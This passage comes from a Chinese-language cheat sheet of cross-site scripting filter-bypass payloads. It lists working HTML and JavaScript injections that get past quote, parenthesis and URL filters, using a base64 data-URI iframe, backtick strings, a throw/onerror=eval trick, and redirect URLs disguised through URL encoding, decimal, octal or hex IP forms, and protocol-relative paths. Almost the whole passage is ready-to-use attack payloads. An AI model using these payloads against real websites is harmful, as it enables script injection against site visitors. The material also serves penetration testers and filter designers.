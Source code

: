 ```
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

#### 过滤双引号，单引号

1.如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号

```
<img src="x" onerror=alert(`xss`);>
```

2.使用编码绕过，具体看上面我列举的例子，我就不多赘述了

#### 过滤括号

当括号被过滤的时候可以使用throw来绕过

```
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```

#### 过滤url地址

##### 使用url编码

```
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>
```

##### 使用IP

1.十进制IP

```
<img src="x" onerror=document.location=`http://2130706433/`>
```

2.八进制IP

```
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

3.hex

```
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```

4.html标签中用`//`可以代替`http://`

```
<img src="x" onerror=document.location=`//www.baidu.com`>
```

5.使用`\\`

```
但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议
```

